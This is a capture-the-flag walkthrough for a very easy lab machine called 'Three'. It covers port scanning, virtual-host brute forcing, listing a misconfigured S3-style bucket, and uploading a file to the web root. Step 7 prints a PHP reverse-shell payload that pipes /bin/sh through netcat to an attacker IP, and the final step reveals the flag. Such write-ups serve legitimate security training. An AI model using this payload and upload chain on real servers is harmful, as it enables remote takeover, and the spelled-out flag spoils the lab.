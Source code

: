 # CTF Walkthrough: Three

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** AWS, S3, Gobuster, Virtual Hosts, Reverse Shell, NetCat
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.92.142`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
            | ssh-hostkey:
            |   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
            |   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
            |_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
            80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
            |_http-title: The Toppers
            |_http-server-header: Apache/2.4.29 (Ubuntu)
            Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
            ```

2. Visit `10.129.92.142`, in the contact section we see `thetoppers.htb`

3. Add `10.129.92.142` to `/etc/hosts`
    - Command: `sudo vim /etc/hosts`
        - Output:
            ```
            10.129.92.142 thetoppers.htb
            ```
4. Sub-Domain bust
    - Command: `gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u thetoppers.htb --append-domain`
        - Output:
            ```
            ===============================================================
            Starting gobuster in VHOST enumeration mode
            ===============================================================
            Found: s3.thetoppers.htb Status: 404 [Size: 21]
            ```
5. Add `s3.thetoopers.htb` to `/etc/hosts`
    - Command: `sudo vim /etc/hosts`
        - Output:
            ```
            10.129.92.142 thetoppers.htb s3.thetoppers.htb
            ```
6. List all s3 buckets
    - Command: `aws --endpoint=http://s3.thetoppers.htb s3 ls thetoppers.htb`
        - Output:
            ```
                                       PRE images/
            2025-04-22 02:11:37          0 .htaccess
            2025-04-22 02:11:37      11952 index.php
            ```
7. Create a reverse shell php file
    - Reverse Shell Script:
        ```
        <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1    |nc <ATTACKING_IP> 1261 >/tmp/f"); ?>
        ```

8. Upload the script
    - Command: `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

9. Start NetCat
    - Command: `nc -lvnp 1261`

10. Visit `http://thetoppers.htb/shell.php`

11. Get Flag
    - Command: `cat /var/www/flag.txt`
        - Flag : a980d99281a28d638ac68b9bf9453c2b

